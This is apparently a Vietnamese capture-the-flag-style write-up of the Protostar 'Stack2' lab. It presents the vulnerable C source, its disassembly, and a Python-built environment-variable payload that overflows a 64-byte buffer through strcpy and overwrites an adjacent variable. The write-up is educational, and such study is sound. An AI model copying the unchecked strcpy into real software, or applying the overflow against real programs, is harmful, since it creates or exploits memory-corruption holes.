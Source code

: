 ## Stack2 
- Goal bài này vẫn là ghi đè biến `modified`, vẫn sử dụng hàm `strcpy`, chỉ khác là lần này untrusted data đến từ biến môi trường, cụ thể chương trình nhận vào data từ biến env `GREENIE` và `strcpy` vào `buffer`
- Source Code C:
```c 
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```
- GDB `disass`:
```asm 
0x08048494 <main+0>:    push   ebp
0x08048495 <main+1>:    mov    ebp,esp
0x08048497 <main+3>:    and    esp,0xfffffff0
0x0804849a <main+6>:    sub    esp,0x60
0x0804849d <main+9>:    mov    DWORD PTR [esp],0x80485e0
0x080484a4 <main+16>:   call   0x804837c <getenv@plt>
0x080484a9 <main+21>:   mov    DWORD PTR [esp+0x5c],eax
0x080484ad <main+25>:   cmp    DWORD PTR [esp+0x5c],0x0
0x080484b2 <main+30>:   jne    0x80484c8 <main+52>
0x080484b4 <main+32>:   mov    DWORD PTR [esp+0x4],0x80485e8
0x080484bc <main+40>:   mov    DWORD PTR [esp],0x1
0x080484c3 <main+47>:   call   0x80483bc <errx@plt>
0x080484c8 <main+52>:   mov    DWORD PTR [esp+0x58],0x0
0x080484d0 <main+60>:   mov    eax,DWORD PTR [esp+0x5c]
0x080484d4 <main+64>:   mov    DWORD PTR [esp+0x4],eax
0x080484d8 <main+68>:   lea    eax,[esp+0x18]
0x080484dc <main+72>:   mov    DWORD PTR [esp],eax
0x080484df <main+75>:   call   0x804839c <strcpy@plt>
0x080484e4 <main+80>:   mov    eax,DWORD PTR [esp+0x58]
0x080484e8 <main+84>:   cmp    eax,0xd0a0d0a
0x080484ed <main+89>:   jne    0x80484fd <main+105>
0x080484ef <main+91>:   mov    DWORD PTR [esp],0x8048618
0x080484f6 <main+98>:   call   0x80483cc <puts@plt>
0x080484fb <main+103>:  jmp    0x8048512 <main+126>
0x080484fd <main+105>:  mov    edx,DWORD PTR [esp+0x58]
0x08048501 <main+109>:  mov    eax,0x8048641
0x08048506 <main+114>:  mov    DWORD PTR [esp+0x4],edx
0x0804850a <main+118>:  mov    DWORD PTR [esp],eax
0x0804850d <main+121>:  call   0x80483ac <printf@plt>
0x08048512 <main+126>:  leave  
0x08048513 <main+127>:  ret    
```
- Bằng cách cũ ta vẫn xác định được offset của `modified` và `buffer` là 64 bit, nhưng lần này ta sẽ cần set biến môi trường `GREENIE` bằng `0x0d0a0d0a`
- Craft payload bằng python với 64 chữ A và 4 bytes `\x0a\x0d\x0a\x0d` rồi set cho biến `$GREENIE`
```
export GREENIE="$(python -c 'print "A"*64 + "\x0a\x0d\x0a\x0d"')"
```
- Mình có thử dùng nhiều cách như đưa 4 bytes kia vào files rồi cat ra, dùng `setenv` của C nhưng không được, cách duy nhất mình tìm ra là dùng python đưa trực tiếp vào
```bash 
user@protostar:/opt/protostar/bin$ echo $GREENIE 
 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA 
user@protostar:/opt/protostar/bin$ export GREENIE="$(python -c 'print "A"*64 + "\x0a\x0d\x0a\x0d"')"
user@protostar:/opt/protostar/bin$ ./stack2 
you have correctly modified the variable
user@protostar:/opt/protostar/bin$ 
```

